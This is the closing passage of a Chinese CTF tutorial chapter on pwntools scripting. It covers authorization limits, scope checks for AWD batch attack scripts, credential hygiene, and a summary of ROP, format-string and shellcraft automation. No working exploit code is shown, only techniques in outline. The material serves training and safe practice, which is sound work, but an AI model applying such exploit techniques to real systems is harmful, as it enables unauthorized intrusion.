| 批量场景下调低日志级别、复用同一套 `exploit()` | AWD 打点时脚本可读性与并发效率兼顾 |
| flag 正则自动提取与提交 | 省去人工从大量回显里翻找 flag 的时间 |

## 安全性与正确使用

> [!caution] 合规声明
> 本篇涉及的所有脚本工程技巧（tube 交互、ROP/fmtstr 自动化、shellcraft 生成、批量打点）均以**理解与提升攻防对抗中的工程能力**为目的，**仅限于自有环境、CTF 官方靶场/平台（如 CTFd、AWD 竞赛平台）以及已取得书面授权的安全研究场景**使用。文中出现的所有代码都是通用工程模式的示意（菜单封装、重试包裹、批量框架），不针对任何真实目标给出可直接使用的武器化配方；不提供针对真实生产系统、他人系统的武器化步骤，也不为绕过任何商业软件授权机制提供武器化方法。任何脚本一旦指向未经授权的主机，无论技术手法多么"标准"，都构成非法访问，需自行承担法律责任。

### AWD 批量脚本的"打错目标"风险

批量打点框架把"对一个目标发起攻击"这个动作自动化并放进循环，这本身就放大了配置错误的后果：一个写死的 IP 网段算错、题目环境的测试地址和比赛平台下发的真实网段搞混，都可能让脚本在不知情的情况下对不属于比赛范围的主机发起真实的网络攻击行为。工程上的应对不是"人肉记住不要打错"，而是把这类校验做成脚本本身的强制检查——比如在批量入口处显式校验目标 IP 是否落在比赛平台下发的网段内、日常联调用固定的本地/内网测试地址而不是直接对着可能变动的比赛地址反复试验、AWD 框架里保留一份"仅允许打这些网段"的白名单并在发起连接前做断言。这是本章区别于 33/22 已经讲过的"运行陌生 exploit 代码有风险"的另一面：**这里的风险来自你自己写的脚本被配置错误触发，而不是运行了别人的代码**。

### 团队协作场景下的凭据与脚本卫生

竞赛脚本经常被提交进团队私有仓库，赛后又可能被整理进公开的 writeup 仓库。如果脚本里直接硬编码了真实的比赛远程地址、队伍 token、flag 提交接口的密钥，这些信息会随着仓库一起被公开，造成不必要的凭据泄露；更现实的风险是**赛后清理不彻底**——写 exploit 时为了图快，把敏感的比赛专属信息和通用的利用逻辑混在同一个文件里，公开分享时容易漏删。标准做法是把主机、端口、密钥这类"每场比赛都会变"的信息拆进单独的配置文件或环境变量，`.gitignore` 排除本地调试用的 libc、flag 等运行期产物，利用逻辑本身与比赛专属信息物理分离——这套习惯和生产代码里"配置与代码分离、密钥不进版本库"的工程规范是同一件事，CTF 高强度重复这套动作，本身就是把这类工程素养训练成肌肉记忆的过程。

### getshell 类脚本本身具备真实攻击能力

需要反复强调的一点是：本章讨论的所有脚本一旦运行成功，产出的是可以执行任意系统调用、打开任意网络连接的能力（`shellcraft.sh()`、`ROP.call('system', ...)` 本质上都是在目标主机上获得代码执行）。调试完成的 exploit 脚本、生成的 shellcode 字节，不应当遗留在与生产环境共享网络、共享凭据的开发机或 CI runner 上；这类"武器化的副产物"和源代码本身一样需要被纳入清理与访问控制的范围，这也是把 CTF 训练中养成的攻击视角，反向沉淀为安全开发流程里"对自己产出的高权限工具保持警惕"的具体体现。

## 小结

1. 本篇是 pwntools **工程实践层**，与 33/22 的**工具原理层**分工明确：原理已经讲透的分层架构、gadget 搜索算法、`fmtstr_payload` 排序算法、环境搭建三类对不上，本篇一律不重复，只讲"原理之上，怎么写出扛得住比赛的脚本"。
2. tube 的核心工程问题是给"未知节奏的目标输出"选对建模方式：`recvuntil`/`recvregex`/`recvn`/`clean` 各自对应不同的输出边界特征，`EOFError` 与超时是两类含义完全不同的异常，菜单交互封装成语义化函数是应对"题目稍改就要复用脚本"的标准做法。
3. `ROP()` 自动化有清晰的边界，边界之外是一条工程化升级路径：`rop.raw()`/`rop.migrate()` 解决缓冲区过小的栈迁移，`Ret2dlresolvePayload` 解决动态解析器伪造这类结构体拼装问题，再往上则交给第 9 章的符号执行兜底。
4. `fmtstr_payload` 之外还有前半段的偏移探测问题，`FmtStr` 类把"探测串→回显解析→反推偏移"自动化，`numbwritten` 未核对固定前缀字节数是复现率极高的隐蔽错位 bug。
5. shellcraft 是按 `arch/os` 组织的 Mako 模板系统，`pushstr` 只解决 NUL 字节问题，其余坏字节永远需要手工核对，极限受限场景（体积极小、字符集极严）已经超出 shellcraft 组合积木的能力范围，需要专门编码手法或手写。
6. 竞赛脚本工程沉淀出一套可复用套路：重试包裹应对概率性利用、断点先行的调试节奏、批量并发打点加自动 flag 提取提交——这套模式在 AWD 赛制下从个人技巧升级为团队基础设施。
7. 脚本工程本身也有合规边界：批量打点要防"打错目标"，团队协作要做凭据与脚本卫生，getshell 类产出物要按高权限工具管理——这些纪律和写健壮生产代码是同一套工程素养的两种应用场景。

## 相关阅读

- [[33.二进制漏洞与利用基础/22.利用开发工具链：pwntools与ROPgadget]] — pwntools 分层架构、gadget 搜索算法、环境搭建工具链的原理篇，本章的直接依托
- [[33.二进制漏洞与利用基础/00.二进制漏洞与利用基础总览]] — Pwn 方向依托的原理体系总览
- [[33.二进制漏洞与利用基础/16.GOT劫持与ret2dlresolve]] — `Ret2dlresolvePayload` 自动化背后的重定位结构原理
- [[33.二进制漏洞与利用基础/12.SROP信号帧伪造]] — 与 ret2dlresolve 同属"ROP自动化边界之外"的手工兜底技术
- [[22.调用规约/06.SystemV_AMD64调用规约]] — `rop.call()`/手工传参共同依赖的寄存器约定基础
- [[11.ELF文件详解/17.got节]] — GOT/PLT 结构详解
- [[34.现代二进制防护机制/12.加固工具与checksec]] — 与 badchar/gadget 密度扫描呼应的防护验收视角
- [[45.反编译器与反汇编引擎原理/11.符号执行与angr框架]] — ROP 自动化升级路径的最终兜底，衔接第 09 章
- [[37.密码学/53.密码学攻击概览]] — 同属"脚本化自动求解"方法论、另一方向的呼应
- [[40.WASM与虚拟化壳逆向/08.WASM CTF实战]] — 非传统架构下的 CTF 实战案例
- [[72.抓包与协议分析实战/13.抓包实战CTF与漏洞分析]] — tube 交互思路在协议分析类题目中的呼应
- [[02.Pwn解题范式与模板]] — 本章工程技巧所服务的解题战略层
- pwntools 官方文档（docs.pwntools.com）与源码仓库 `Gallopsled/pwntools`（`pwnlib.tubes`/`pwnlib.rop`/`pwnlib.fmtstr`/`pwnlib.shellcraft` 各子模块）
- [[00.CTF方法论体系总览]] — 系列总览

[[00.CTF方法论体系总览|⬆ 系列总览]] | [[07.静态与动态分析速查|← 上一章]] | [[09.符号执行辅助解题：angr实战|→ 下一章]]
